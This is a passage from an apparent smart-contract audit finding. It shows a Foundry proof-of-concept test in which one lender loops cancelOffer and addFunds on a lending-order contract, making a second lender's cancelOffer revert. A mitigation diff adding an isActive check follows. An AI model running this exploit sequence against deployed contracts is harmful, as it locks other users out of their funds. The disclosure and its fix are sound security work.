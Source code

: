 ```solidity
            1000,
            9640000,
            86400,
            acceptedCollaterals,
            wETH,
            oraclesCollateral,
            ratioLenders,
            address(0x0),
            5e18
        );
        vm.stopPrank();

        LendOrder = DLOImplementation(lendOrderAddress);
        SecondLendOrder = DLOImplementation(SecondlendOrderAddress);

        //-----------------------------------------------------//
        // Call cancelOffer -> addFunds -> cancelOffer -> ...
        //-----------------------------------------------------//

        vm.startPrank(firstLender);

        for (uint i = 0; i < 2; i++) {
          LendOrder.cancelOffer();
          uint amount = 1 wei;
          AEROContract.approve(address(LendOrder), amount);
          LendOrder.addFunds(amount);
        }

        vm.stopPrank();

        //-------------------------------------------------------------------//
        // When the second lender attempts to cancel the offer, it reverts
        //-------------------------------------------------------------------//

        vm.startPrank(secondLender);

        vm.expectRevert(stdError.arithmeticError);
        SecondLendOrder.cancelOffer();

        vm.stopPrank();
    }
}

```

### Mitigation

1. **Ensure Only Active Offers Can Be Modified**:
Prevent adding funds or canceling inactive offers by checking the isActive state.

```diff
    function addFunds(uint amount) public nonReentrant {
+     require(isActive, "Offer is not active");
      ...
    }
```
